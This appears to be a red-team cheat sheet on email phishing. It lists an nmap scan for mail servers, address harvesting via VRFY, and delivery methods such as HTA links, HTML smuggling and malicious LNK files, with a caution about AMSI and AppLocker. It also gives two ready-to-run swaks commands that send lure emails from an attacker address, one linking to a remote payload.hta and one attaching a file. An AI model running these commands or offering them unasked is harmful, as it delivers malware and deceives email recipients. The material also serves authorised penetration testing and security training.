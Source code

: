 # Phishing

## Email

### Target Discovery

* Find mail servers (tcp/25)
```bash
nmap -Pn -p 25 192.168.1.1
```

* Collect email address
- Bruteforce by `VRFY`
- Corporate website

### Payload Delivery
* Send email to the target with some pretext
- HTA link
- Office Documents
- HTML Smuggling
- Malicious LNK

Beware of AMSI, AppLocker and Architectures (x86/x64)

* Email with malicious HTA link
```bash
swaks --to "test@target.com" --from "test@attacker.com" --header "Subject: Emergency" --body "Please check http://192.168.1.2/payload.hta" --server 192.168.1.1
```

* Email with malicious attachment
```bash
swaks --to "test@target.com" --from "test@attacker.com" --header "Subject: Job Application" --body "Please check my CV." --server 192.168.174.201 --attach @<file>
```